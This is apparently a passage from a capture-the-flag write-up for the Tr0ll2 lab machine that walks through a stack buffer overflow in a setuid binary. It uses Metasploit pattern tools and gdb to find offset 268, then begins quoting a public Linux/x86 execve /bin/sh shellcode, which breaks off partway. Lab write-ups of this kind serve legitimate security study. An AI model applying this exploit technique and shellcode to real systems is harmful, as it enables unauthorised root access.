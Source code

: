 ### Creating the Pattern

```shell-session
[elliot@archlinux]  troll2 git:(main) ✗ /opt/metasploit/tools/exploit/pattern_create.rb -l 270               
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9
[elliot@archlinux]  troll2 git:(main) ✗ 
```

### Find the offset

#### Sending the pattern
```shell-session
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9

Starting program: /nothing_to_see_here/choose_wisely/door3/r00t Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9

Program received signal SIGSEGV, Segmentation fault.
0xb7003969 in ?? ()
(gdb) info register esp
esp            0xbffffb70	0xbffffb70
(gdb) 
```

#### Offset
```shell-session
[elliot@archlinux]  troll2 git:(main) ✗ /opt/metasploit/tools/exploit/pattern_offset.rb -q 0xb7003969
[*] Exact match at offset 268
```

### Shellcode
As we know from the binary file that the system is using `i386-linux-gnu` and `x86` which is `32 Bit` System architecture, so instead of writing the shellcode on our [here](http://shell-storm.org/shellcode/files/shellcode-827.php) it found a public shellcode.

ShellCode
```bash
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
```